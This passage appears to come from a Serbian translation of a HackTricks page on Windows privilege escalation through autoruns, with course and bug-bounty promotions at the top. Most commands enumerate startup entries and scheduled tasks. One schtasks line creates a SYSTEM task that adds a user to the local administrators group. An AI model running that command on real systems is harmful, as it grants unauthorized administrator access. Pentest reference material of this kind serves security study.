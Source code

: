 # Privilege Escalation with Autoruns

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Savet za bug bounty**: **registrujte se** za **Intigriti**, premium **platformu za bug bounty kreiranu od hakera, za hakere**! Pridružite nam se na [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) danas, i počnite da zarađujete nagrade do **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## WMIC

**Wmic** se može koristiti za pokretanje programa pri **pokretanju sistema**. Pogledajte koje binarne datoteke su programirane da se pokrenu pri pokretanju sistema sa:

```bash
wmic startup get caption,command 2>nul & ^
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
```

## Planirani zadaci

**Zadaci** mogu biti zakazani da se pokrenu sa **određenom učestalošću**. Pogledajte koje binarne datoteke su zakazane za pokretanje sa:

```bash
schtasks /query /fo TABLE /nh | findstr /v /i "disable deshab"
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

#Schtask to give admin access
#You can also write that content on a bat file that is being executed by a scheduled task
schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "cmd /c net localgroup administrators user /add"
```

## Folderi

Svi binarni fajlovi smešteni u **Folderima za pokretanje će biti izvršeni prilikom pokretanja sistema**. Uobičajeni folderi za pokretanje su navedeni u nastavku, ali folder za pokretanje je naznačen u registru. [Pročitajte ovde da saznate gde.](privilege-escalation-with-autorun-binaries.md#startup-path)
